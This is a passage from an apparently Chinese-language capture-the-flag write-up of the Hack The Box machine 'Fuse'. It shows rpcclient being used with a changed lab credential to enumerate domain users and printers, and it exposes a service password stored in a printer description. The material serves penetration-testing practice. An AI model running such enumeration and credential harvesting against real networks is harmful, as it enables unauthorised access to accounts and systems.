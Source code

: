 ```

奇怪的是，这个修改的密码通常用一次后面就不能再使用了，需要再次修改密码，而原密码还是Fabricorp01。可能是靶机作者担心原密码修改了以后影响其他人员做的某种定时任务之类的东西？

但是这个密码并不能使用evil-winrm，smbexec.py，psexec.py等工具登录

使用修改的凭证，登录rpcclient，拿到完整的域user名单

```
┌──(root💀kali)-[~/htb/Fuse]
└─# rpcclient -U tlavel%Fabricorp06 10.10.10.193
rpcclient $> enumdomusers
user:[Administrator] rid:[0x1f4]
user:[Guest] rid:[0x1f5]
user:[krbtgt] rid:[0x1f6]
user:[DefaultAccount] rid:[0x1f7]
user:[svc-print] rid:[0x450]
user:[bnielson] rid:[0x451]
user:[sthompson] rid:[0x641]
user:[tlavel] rid:[0x642]
user:[pmerton] rid:[0x643]
user:[svc-scan] rid:[0x645]
user:[bhult] rid:[0x1bbd]
user:[dandrews] rid:[0x1bbe]
user:[mberbatov] rid:[0x1db1]
user:[astein] rid:[0x1db2]
user:[dmuir] rid:[0x1db3]
rpcclient $> 

```

整理user list为：
```
Administrator
Guest
krbtgt
DefaultAccount
svc-print
bnielson
sthompson
tlavel
pmerton
svc-scan
bhult
dandrews
mberbatov
astein
dmuir
```

使用enumprinters枚举打印机信息，爆出一个密码：```$fab@s3Rv1ce$1```
```
rpcclient $> enumprinters
        flags:[0x800000]
        name:[\\10.10.10.193\HP-MFT01]
        description:[\\10.10.10.193\HP-MFT01,HP Universal Printing PCL 6,Central (Near IT, scan2docs password: $fab@s3Rv1ce$1)]
        comment:[]
